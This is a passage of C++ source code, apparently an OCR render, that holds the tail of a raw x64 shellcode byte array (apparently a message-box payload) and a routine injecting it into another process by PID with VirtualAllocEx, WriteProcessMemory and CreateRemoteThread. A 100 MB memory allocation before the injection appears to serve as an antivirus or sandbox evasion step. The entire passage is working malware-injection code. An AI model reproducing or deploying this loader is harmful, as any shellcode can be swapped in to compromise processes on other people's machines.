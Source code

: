 ```cpp
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```
